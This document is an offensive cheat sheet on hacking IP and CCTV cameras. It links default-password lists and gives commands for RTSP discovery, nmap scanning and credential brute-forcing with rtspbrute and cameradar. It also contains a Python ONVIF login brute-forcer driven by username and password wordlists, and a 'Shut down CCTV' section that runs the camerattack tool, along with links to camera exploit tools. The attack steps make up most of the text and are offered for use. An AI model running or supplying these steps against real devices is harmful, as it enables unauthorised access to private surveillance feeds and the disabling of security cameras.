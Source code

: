 # Hacking

&#x20;

<figure><img src="../../.gitbook/assets/image (162).png" alt="" width="563"><figcaption><p>"You see, but you do not observe." - S. Holmes</p></figcaption></figure>

## Default credentials

* [The default passwords of nearly every IP camera, Hackers Arise (2023)](https://www.hackers-arise.com/post/the-default-passwords-of-nearly-every-ip-camera)
* [Default Camera Passwords, IspyConnect](https://www.ispyconnect.com/userguide-default-passwords.aspx)

## RTSP

### Seeking out

> **Ports used by RTSP** :
>
> * 554
> * 5554
> * 8554

**Make a request**

```bash
curl -i -X OPTIONS rtsp://$ip/stream1 RTSP/1.1
# a valid RTSP service should respond RTSP/1.0 200 OK
```

### Scanning

```bash
nmap -sV --script "rtsp-*" -p <PORT> <IP>
```

### Bruteforce

[Common wordlist](https://github.com/nmap/nmap/blob/master/nselib/data/rtsp-urls.txt)

```bash
pip install rtspbrute av Pillow rich
rtspbrute -t hosts.txt -p 8554
```

### Cameradar | Get all the infos + bruteforce

```bash
git clone https://github.com/Ullaakut/cameradar
cd cameradar
# scan for default ports
docker run --net=host -t ullaakut/cameradar -t $ip

# bruteforce
docker run -t ullaakut/cameradar -t $ip -p $port -T 3s -s 3 -d
# with custom wordlist
docker run  ullaakut/cameradar -t -v /usr/share/seclists/Passwords/Common-Credentials:/tmp/dictionaries -c "tmp/dictionaries/10-million-password-list-top-1000000.json" -t 192.168.1.101
```

## ONVIF

> If you receive long output in XML markup, then this device has support for the ONVIF protocol. ONVIF does not have a standard port, usually this protocol is found on ports 8899, 80, 8080, 5000, 6688.

### Install

```bash
sudo pip install onvif
git clone https://github.com/quatanium/python-onvif.git
cd python-onvif && python setup.py install
```

### Commands

**Get the hostname using this python script :**

```python
# python script
from onvif import ONVIFCamera
mycam = ONVIFCamera('192.168.0.2', 80, 'user', 'passwd', '/etc/onvif/wsdl/')

# Get Hostname
resp = mycam.devicemgmt.GetHostname()
print 'My camera`s hostname: ' + str(resp.Name)

# Get system date and time
dt = mycam.devicemgmt.GetSystemDateAndTime()
tz = dt.TimeZone
year = dt.UTCDateTime.Date.Year
hour = dt.UTCDateTime.Time.Hour
```

### Bruteforce

* Python Script :

```python
import sys
from onvif import ONVIFCamera
 
if len(sys.argv) < 4:
    user = ''
else:
    user = sys.argv[3]
 
if len(sys.argv) < 5:
    password = ''
else:
    password = sys.argv[4]      
 
mycam = ONVIFCamera(sys.argv[1], sys.argv[2], user, password, '/usr/local/lib/python3.9/site-packages/wsdl/')
 
resp = mycam.devicemgmt.GetDeviceInformation()
print (str(resp))
```

* Launch it :

```bash
parallel -j2 -a usernames.txt -a passwords.txt 'python3 bruteforcer.py $ip $port 2>/dev/null {1} {2}'
```

## Shut down CCTV

{% embed url="https://github.com/Ullaakut/camerattack" %}

```bash
# install
export GO111MODULE=on
go get github.com/ullaakut/camerattack@latest
cd $GOPATH/src/github.com/ullaakut/camerattack
go install

# usage
camerattack rtsp://0.0.0.0:8554/live.sdp
```

## Tricks that could work

> Try to login with empty passwords 7+ times

## Tools

{% embed url="https://github.com/EntySec/CamOver" %}
For CCTV, GoAhead, Netwave
{% endembed %}

## Resources

*   [Exploiting Surveillance Cameras like a Hollywood Hacker - Craig Heffner (2013)](https://media.blackhat.com/us-13/US-13-Heffner-Exploiting-Network-Surveillance-Cameras-Like-A-Hollywood-Hacker-WP.pdf)

    > Linked exploit tool : [IPCamShell](https://github.com/nmalcolm/ipcamshell)
* [Hacking CCTV and IP cameras: Are you safe ? - David Bombai, Youtube (2022)](https://www.youtube.com/watch?v=ZGCScbV7vSA)
